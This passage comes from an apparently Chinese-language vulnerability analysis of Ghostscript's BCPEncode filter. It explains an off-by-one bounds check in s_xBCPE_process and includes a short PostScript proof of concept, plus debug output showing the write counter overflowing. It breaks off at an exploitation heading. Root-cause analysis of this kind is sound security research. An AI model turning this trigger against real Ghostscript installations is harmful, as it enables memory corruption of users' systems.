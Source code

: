 ```bash
                break;
            }
            *++q = CtrlA;
            ch ^= 0x40;
            if (--wcount < rcount)
                end--;
        }
        *++q = ch;
    }
    pr->ptr = p;
    pw->ptr = q;
    return (p == rlimit ? 0 : 1);
}
```

在该函数中，将读取的每个字符与转义字符列表进行比较。如果它不在列表中，则简单地按原样写入。如果它在转义列表中，将执行一些检查。首先检查（p=rlimit）确保读取指针 p 不在正在读取的缓冲区的最后一个字符处。如果是，则读取指针递减，循环退出。如果不是，它将写入 CtrlA（即 0x01），增加写入指针，并用 0x40 异或当前字符。在最后一次检查之后，它写入当前字符（异或字符），并再次增加写入指针。如果接收的缓冲区的空间小于筛选器正在读取的缓冲区，则 if（--wcount<rcount）检查尝试通过递减结束限制指针来确认此双写入。之后，读取和写入指针被更新，并且函数返回。

通过代码、调试语句和一些调试，错误的根本原因变得更加清楚。似乎，在 s\_xBCPE\_process 函数之后，pw->ptr 被更新为大于 pw->limit 的值，导致（uint）（pw->limit-pw->ptr）溢出。

以下 PostScript 将导致溢出：

```bash
/writtenTo {4 string} def % declare an empty string of size 4
/theFilter writtenTo /BCPEncode filter def % declare a filter, using the BCPEncode that writes to the string
/readsFrom <414141134141> def % declare a string of size 6: 5 'A's and 0x13, which is an escaped character
theFilter readsFrom writestring % write the string to the filter
theFilter flushfile % flush the file for the write to happen
```

创建一个比我们试图读取的字符串更小的要写入的字符串是通过 p=rlimit 来进行检查的。将缓冲区填充到比已满少一个字节，然后传递转义字符会导致两个 q 增量。这就导致程序绕过了对 p 的长度检查

```bash
./gs -Zs -f poc.ps
[...]
[s]init 0x560dc8218ba8, buf=0x560dc8218d20, len=2048, modes=2
[s]write process 0x560dc8218ba8(stream_state), nr=6, nw=4, end=0
[s]after write 0x560dc8218ba8, nr=2, nw=4294967295, end=0, status=1
[s]moving ahead, depth = 1
[s]write process 0x560dc82125a8(stream_state), nr=5, nw=0, end=0
[s]after write 0x560dc82125a8, nr=5, nw=0, end=0, status=-2      
[s]unwinding
[s]write process 0x560dc7f4f668(stream_state), nr=15, nw=0, end=0
Error: /ioerror[s]after write 0x560dc7f4f668, nr=0, nw=0, end=0, status=0  
[...]
```

写入后，nw 变量（即 pw->limit-pw->ptr）溢出。对该流的下一次写入应该会导致越界写入，但在这种情况下，这样做会引发 io error，表明文件已关闭，因为没有更多的空间可写入。

## 漏洞利用
